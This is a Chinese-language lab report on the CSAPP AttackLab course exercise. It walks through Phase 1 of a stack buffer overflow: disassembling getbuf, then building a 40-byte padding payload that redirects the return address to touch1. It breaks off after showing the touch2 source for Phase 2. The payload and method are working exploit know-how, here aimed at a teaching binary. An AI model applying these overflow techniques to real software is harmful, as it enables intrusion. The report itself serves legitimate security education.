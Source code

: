 # CSAPP AttackLab 实验报告

## 实验目的

本实验旨在通过实践缓冲区溢出攻击技术，深入理解：
- 程序栈帧结构和函数调用机制
- 缓冲区溢出漏洞的成因与利用方式
- 代码注入（Code Injection）攻击原理与实现
- 返回导向编程（Return-Oriented Programming，ROP）攻击技术
- 现代系统安全防御措施（如栈随机化、不可执行栈等）的工作原理
- x86-64 汇编语言和栈内存结构的实际应用

## 实验思路与技术

### Phase 1: 简单栈溢出攻击

#### 目标
修改 `getbuf()` 函数的返回地址，使其返回到 `touch1()` 函数而非正常的 `test()` 函数。

#### 技术分析
1. 通过 `objdump -d` 反汇编目标程序，分析 `getbuf()` 函数：
   ```assembly
   4017a8: 48 83 ec 28          sub    $0x28,%rsp
   4017ac: 48 89 e7             mov    %rsp,%rdi
   4017af: e8 8c 02 00 00       callq  401a40 <Gets>
   4017b4: b8 01 00 00 00       mov    $0x1,%eax
   4017b9: 48 83 c4 28          add    $0x28,%rsp
   4017bd: c3                   retq
   ```

2. 发现 `getbuf()` 分配了 0x28（40）字节的栈空间，但 `Gets()` 函数没有长度检查
3. 查找 `touch1()` 函数的地址为 `0x4017c0`

#### 攻击实现
1. 构造 40 字节填充 + 目标地址的 Payload：
   ```
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
   ```

2. 注意地址使用小端序（Little Endian）表示
3. 使用 `hex2raw` 工具将十六进制字符串转换为二进制输入

### Phase 2: 带参数的代码注入攻击

#### 目标
修改返回地址到 `touch2()` 函数，并且需要传入 cookie 值作为参数（存放在 %rdi 寄存器）。

#### 技术分析
1. 通过反汇编分析 `touch2()` 函数：
   ```c
   void touch2(unsigned val) {
     vlevel = 2;
     if (val == cookie) {
       printf("Touch2!: You called touch2(0x%.8x)\n", val);
       validate(2);
     } else {
       printf("Misfire: You called touch2(0x%.8x)\n", val);
       fail(2);
     }
     exit(0);
   }
   ```